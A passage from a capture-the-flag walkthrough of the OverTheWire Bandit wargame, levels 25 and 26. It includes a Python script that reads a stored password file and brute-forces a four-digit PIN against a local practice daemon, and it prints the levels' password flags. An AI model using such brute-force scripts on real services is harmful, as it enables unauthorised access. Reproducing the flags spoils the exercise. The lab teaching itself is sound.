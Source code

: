 {% tab title="Flag" %}
```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
{% endtab %}
{% endtabs %}

## Level 25

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

This could certainly be sped up quite a bit with multithreading, but I didn't feel it was necessary.

{% tabs %}
{% tab title="Solution" %}
```bash
python ./solution.py
```
{% endtab %}

{% tab title="solution.py" %}
```python
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
bandit24 = open('/etc/bandit_pass/bandit24','r').read().replace('\n','')
print "initiating brute force..."
connect = s.connect(('127.0.0.1',30002))
s.recv(1024)
for x in range(0,10000):
    print('attempting:{} {:04d}'.format(bandit24,x))
    s.send('{} {:04d}\n'.format(bandit24 , x))
    message = s.recv(1024)
    if 'Wrong!' not in message:
        print(message)
        break
s.close()
```
{% endtab %}

{% tab title="Flag" %}
```
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
{% endtab %}
{% endtabs %}


## Level 26

> Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
